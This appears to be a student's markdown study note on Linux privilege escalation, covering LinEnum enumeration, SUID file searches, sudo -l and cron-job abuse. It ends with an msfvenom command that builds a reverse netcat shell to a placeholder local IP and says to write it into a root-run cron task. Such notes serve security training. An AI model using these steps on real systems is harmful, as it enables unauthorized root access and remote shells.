 
# Horizontal privilage escelation
#### Expand  reach over the compromised system by taking over a different user who is on the same privilege level eg. normal user -> normal user.

# Vertical privilage escelation
#### Attempt to gain higher privileges or access, with an already compromised account 

# Enumeration with LinEnum 
#### A simple bash script that performs common commands related to privilege escalation, saving time and allowing more effort to be put toward getting root.
#### https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

## Adding LinEnum to target:
1. start Python web server eg. `python3 -m http.server 8000` 
2. on target use `wget` to get file from local machine
3. make file executable - `chmod +x FILENAME.sh`

### OR
1. simply copy paste into .txt on target & save with .sh extension
2. make the file executable using the command `chmod +x FILENAME.sh`

#### Output produces writable files/ sensetive files, SUID(Set owner User ID up on execution) files & cron job list

## SUID exploitation
#### rwx = 4(read)2(write)1(exe) == 7
#### eg 755 = rwxr-xr-x

#### When special permission is given to each user it becomes SUID/ SGID. When extra bit “4” is set to user(Owner) 
it becomes SUID (rws-rwx-rwx) and when bit “2” is set to group it becomes SGID (rwx-rws-rwx).
#### Check for files with the SUID/GUID bit - can be run with the permissions of the file owner/group
#### `find / -perm -u=s -type f 2>/dev/null`

# Other means of priv-esc

## Processes
#### `sudo -l` to list commands usable as a super user on that account (if any). 

## crontab
#### Long-running process that executes commands at specific dates and times. Found in `cat /etc/crontab`
#### Format:
`m   h dom mon dow user  command`
`17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly`
#### Check for files run as root but that can be written to by anyone/you. Edit file to execte shell for example with msfvenom:
`msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`
#### write payload to task set to run in cron
